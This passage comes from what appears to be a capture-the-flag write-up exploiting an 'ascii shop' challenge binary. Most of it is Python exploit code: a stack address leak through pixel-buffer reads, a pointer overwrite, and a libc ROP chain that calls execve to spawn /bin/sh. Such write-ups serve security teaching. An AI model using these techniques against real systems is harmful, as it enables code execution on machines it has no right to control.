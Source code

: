 Libc leak was not enough given that I could not change the program flow with hooks. Thus, I looked around that page and found a very reliable leak of the stack. With some changes to the value of the leak I figured out an address that, if it gets decreased of 1024, it points closer to the return address of the ascii shop submenu.

```python
touchupAscii('WRITE00')
changePixel(OFFSET_OFFSET, 0, chr(OFFSET_LEAK_STACK & 0xFF))
changePixel(OFFSET_OFFSET + 1, 0, chr((OFFSET_LEAK_STACK >> 8) & 0xFF))
quitTouchup()
touchupAscii('READ000')
leak = printGrid()
leak = leak.split(' 0 |')[1].split('\n')[0].replace('ffffff', '').replace('   ', ' \x00').replace('  ', ' ')
leak = leak.split(' ')[1:]
stack_position = 0
for i in range(6):
    if len(leak[i]) == 2:
        stack_position += int(leak[i], 16) << (8 * i)
    else:
        stack_position += ord(leak[i]) << (8 * i)
stack_position = stack_position -0x70 + 0x400 
print 'Stack position: ' + hex(stack_position)
quitTouchup()
```

Changed the value of `fs[-8]` to the value obtained before.

```python
touchupAscii('WRITE00')
for i in range(6):
    changePixel(OFFSET_STACK_PTR + i, 0, chr(((stack_position) >> (8 * i)) & 0xFF))
quitTouchup()
```

And finally I called the filter function to ROP on the stack. The ROP used the gadgets from the libc to spawn `/bin/sh` with an `execve` syscall.

```python
# ROP
filter_ascii = p64(0x0)
filter_ascii += p64(libc_base + POP_RDI)
filter_ascii += p64(libc_base + BIN_SH)
filter_ascii += p64(libc_base + POP_RSI)
filter_ascii += p64(0x0)
filter_ascii += p64(libc_base + POP_RDX)
filter_ascii += p64(0x0)
filter_ascii += p64(libc_base + POP_RAX)
filter_ascii += p64(0x3b)
filter_ascii += p64(libc_base + SYSCALL)
filter_ascii = filter_ascii.ljust(0x400, '\x00')

addFilter('READ000', filter_ascii)

quitAsciiShop()
```
